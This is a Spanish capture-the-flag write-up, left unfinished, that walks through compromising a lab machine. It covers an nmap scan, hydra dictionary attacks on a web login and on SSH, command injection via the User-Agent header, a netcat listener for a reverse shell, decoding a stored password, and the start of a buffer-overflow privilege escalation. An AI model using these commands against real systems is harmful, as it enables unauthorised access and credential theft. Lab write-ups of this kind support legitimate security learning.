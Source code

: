 ## Enumeracion de Puertos, Servicios y Versiones

```ruby
nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 172.17.0.2
```

![image](https://github.com/user-attachments/assets/ef4ad12d-e455-4a13-b07f-1fe2f32fcd2e)

nmap reporta 2 servicios levantados, ssh y http asi que comienzo chequeando la web

![image](https://github.com/user-attachments/assets/41754477-d95b-4b33-994d-45a225b1558b)

me consigo con un panel de login, al parecer no es vulnerable a una inyeccion basica sql, asi que enumerare la web pero tampoco consigo nada por lo que ahora reviso el
codigo fuente y lo unico que puedo observar es un comentario 

![image](https://github.com/user-attachments/assets/86f43e38-1582-42b5-b654-9b0c4e83eb9f)

aunque no da ciertamente ninguna informacion, podria ser este el user para el panel de login por lo que aplicare un ataque de diccionario contra el panel

```ruby
hydra -l d1se0 -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form "/index.php:username=^USER^&password=^PASS^:F=¡Ups! Las credenciales no son correctas. Intenta nuevamente."
```

![image](https://github.com/user-attachments/assets/7690764f-b119-4711-9633-006e4e92a393)

obtengo credenciales para el acceso asi que me logueo

![image](https://github.com/user-attachments/assets/c66f18e9-53a1-408f-8853-f9b596849bea)

en este punto intente varios vectores de ataque hasta dar con el vector correcto, el user-agent es vulnerable directamente a ejecucion de comandos!!!

![image](https://github.com/user-attachments/assets/94e9ee72-c0cb-4fca-993d-9ab9c47a1371)

asi que inspecciono un poco el sistema desde este punto

![image](https://github.com/user-attachments/assets/958cee1e-9f24-48c3-9b28-243ff56f9705)

existe un solo usuario en el sistema, en este punto podria lanzarme una `webshell` y ganar acceso directamente o intentar un ataque de diccionario contra el servicio `ssh` y el user `flow`

```ruby
hydra -l flow -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

por esta via no obtengo resultados asi que me lanzo una `webshell`

```ruby
nc -lnvp 4445 # me coloco en escucha con netcat
```

![image](https://github.com/user-attachments/assets/3f675cec-ab10-4a86-a6c9-70ed0b11841e)

## Escalada de Privilegios

### www-data

tratamiento de la terminal

```
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 38 columns 168
export TERM=xterm
export SHELL=bash
```

lo primero que realizo es una busqueda de archivos que pertenezcan al user `flow`

```ruby
find / -type f -user flow 2>/dev/null # buscamos archivos del user flow en el sistema
```

conseguirmos el archivo `/usr/bin/secret` que al leerlo obtenemos lo siguiente

![image](https://github.com/user-attachments/assets/f9a44958-e146-466d-914a-67cad8bc5c3f)

asi que decodifico 

```ruby
echo "MQYXGZJQNFZXI2DFMJSXG5CAEQSCC===" |base32 -d
```

y obtengo lo que parece ser la password de `flow` asi que la pruebo

![image](https://github.com/user-attachments/assets/76972d79-797e-4de0-8c67-faba9fea0132)

### flow

ahora como el user `flow` puedo ejecutar un binario como `root`

![image](https://github.com/user-attachments/assets/1ef82770-c76c-4aa6-a12e-f00c79bc8ed2)

![image](https://github.com/user-attachments/assets/134c810e-bc2b-4022-97e2-c93cabae60d4)

continuo testeando pero esta como raro

![image](https://github.com/user-attachments/assets/70912cba-395b-4aa2-a1a4-afcf77bd1e56)

dice que la clave sera `root` para acceder al modo administrador, pero si coloco `root` no funciona asi que lo enviare a mi maquina para examinarlo mejor

![image](https://github.com/user-attachments/assets/2ed714bd-612e-4482-afb2-b120dca82f0c)

![image](https://github.com/user-attachments/assets/dd089e0e-1500-4099-b88e-484f2bfe6b63)

es un binario `x64` que no cuenta con 2 protecciones asi que chequeare si llega ser vulnerable a un desbordamiento de buffer

![image](https://github.com/user-attachments/assets/65904269-4d5b-46dd-8e5a-0387ec1ab2eb)

ocurrio un fallo de segmentacion, lo cual podria ser un indicio de un posible desbordamiento de buffer

## BUFFER OVERFLOW

comienzo desactivando el ASLR y ejecutando el binario a traves del depurador `gdb`

```ruby
sysctl -w kernel.randomize_va_space=0 # Desactivando temporalmente el ASLR
```

# Writeup en construccion, conuare ...














